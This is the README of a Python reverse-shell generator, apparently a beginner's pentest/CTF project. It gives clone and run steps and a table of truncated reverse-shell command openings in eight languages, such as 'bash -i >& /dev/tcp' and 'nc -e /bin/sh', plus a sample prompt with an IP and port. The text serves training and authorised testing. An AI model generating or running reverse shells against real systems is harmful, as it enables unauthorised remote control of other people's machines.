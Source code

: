 # 🔥 Reverse-shell-generator 
![](images/nwe.png)
## 🚀 Installation
<b>You can use the Reverse Shell Generator script by cloning the repository:</b>
```python
git clone https://github.com/CyberKRY/reverse-shell-generator.git
cd reverse-shell-generator
```
<b>It is recommended to run the script with Python 3 installed on your system. It is cross-platform and does not require any additional libraries.</b>

## Quick Start:
```python
python3 shellgen.py
```
## ✨ Features
<b>
  
* Supports eighth languages: Bash, Python, PHP, Perl, Netcat, Java, Xterm and Powershell

* Instant generation: Simply select a number, IP address and port to create a reverse shell that is ready to use.

* Colourful CLI interface: Stylish and easy to read thanks to the ANSI layout.

* Minimalism: Lightweight with no dependencies; runs instantly.

* Versatility: Great for CTF, penetration testing, training and automation.
</b>

## 📥 Supported Shells
| № | Language  | Command                                |
| - | ------    | -------------------------------------- |
| 1 | Bash      | `bash -i >& /dev/tcp/...`              |
| 2 | Python    | `python3 -c 'import socket,...'`       |
| 3 | PHP       | `php -r '$sock = fsockopen(...); ...'` |
| 4 | Perl      | `perl -e 'use Socket; ...'`            |
| 5 | Netcat    | `nc -e /bin/sh ...`                    |
| 6 | Java      | `Runtime.getRuntime().exec(...)`       |
| 7 | Xterm     | `xterm -display IP:PORT`               |
| 8 | Powershell| `powershell -c "$client = New-Objec...`|

## Conclusion:
```python
Enter the Reverse Shell number: 2
Enter IP address: 10.8.0.1
Enter port number: 4444
```
## ⚠️ Warning
> <b>This tool is intended solely for training purposes or legal testing. Only use it in systems where you have authorisation.</b>


<b>Thank you very much for your interest in my robot. This is one of the first scripts I have created, and I will create more and better ones in future. Thank you again.</b>
